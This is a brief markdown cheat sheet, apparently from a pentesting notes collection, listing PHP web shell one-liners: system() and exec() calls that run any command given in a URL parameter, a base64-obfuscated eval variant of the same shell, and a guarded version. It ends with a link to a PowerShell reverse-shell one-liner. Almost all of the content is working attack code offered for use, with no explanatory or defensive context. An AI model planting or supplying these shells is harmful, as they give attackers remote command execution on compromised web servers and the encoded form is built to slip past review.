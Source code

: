 # PHP

## Simple 'cmd' exec
```
echo system($_GET['c']);
```

```
echo exec($_GET['c']);
```

### Base64 encoded:
```
eval(base64_decode('ZWNobyBzeXN0ZW0oJF9HRVRbJ2MnXSk7'));
```

### With if
```
if (isset($_GET["c"])) { echo system($_GET['c']); }
```

## External References
- Invoke-PowerShellTcpOneLine.ps1: [https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1)
